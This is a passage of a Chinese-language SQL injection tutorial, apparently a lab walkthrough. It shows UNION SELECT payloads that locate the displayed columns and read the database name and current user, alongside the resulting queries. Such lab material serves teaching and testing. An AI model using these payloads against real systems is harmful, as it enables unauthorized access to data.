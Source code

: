------

### ④ 利用联合查询（UNION SELECT）

构造：

```
?id=-1' UNION SELECT 1,2,3--+     
SELECT * FROM users WHERE id ='-1' UNION SELECT 1,2,3 -- ' LIMIT 0,1;
```

> [!NOTE]
>
> `id=-1` 是一种常见的技巧，核心目的是**让原始查询返回空结果**，从而凸显 `UNION` 拼接的查询结果

页面会显示 `2`、`3` 等字段位置。

![image-20250902151948815](images/image-20250903103342087.png)

------

### ⑤ 获取数据库信息

当前数据库名：用户

```
?id=1' UNION SELECT 1,database(),user()--+
SELECT * FROM users WHERE id ='-1' UNION SELECT 1,DATABASE(),USER() -- LIMIT 0,1;
```

![image-20250903103657218](images/image-20250903103657218.png)
